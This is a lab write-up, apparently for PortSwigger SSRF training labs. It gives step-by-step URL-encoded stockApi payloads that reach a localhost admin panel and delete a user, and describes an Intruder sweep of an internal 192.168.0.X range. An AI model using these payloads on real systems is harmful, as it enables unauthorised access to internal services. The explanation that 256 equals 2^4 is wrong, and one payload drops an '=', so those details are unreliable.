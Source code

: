 ## Lab: Basic SSRF against the local server
This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`

### Solve:
1. visit one of any product, click check stock, capture on burp
2. notice the api call `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`
3. change to `stockApi=http%3a%2f%2flocalhost%2fadmin`
4. forward the request, look into the bottom, the admin panel pops
5. delete user `carlos`
6. error will show `Admin interface only available if logged in as an administrator, or if requested from loopback` with the slug `/admin/delete?username=carlos`
7. go back and change the api call to `stockApi=http%3a%2f%2flocalhost%2fadmin%2fdelete%3fusername%3dcarlos`
8. forward the request
9.  the lab will be solved

## Lab: Basic SSRF against another back-end system
This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user `carlos`

### Solve:
1. visit one of any product, click check stock, capture on burp
2. notice the api call `stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1` send to intruder and change to `stockApihttp%3a%2f%2f192.168.0.§1§%3a8080%2fadmin`
3. set the payload to number from 0 to 255 (should i explain this? its because an ip block range are 2^4 which is 256, 0 to 255)
4. start attack, look for 200 status.. in my case its `192.168.0.78:8080/admin`
5. send a request to that address (change the api call), it return not found, but the slug are acquired `/admin/delete?username=carlos`
6. re make the request with this api call `http://192.168.0.78:8080/admin/delete?username=carlos`
7. lab is solved
   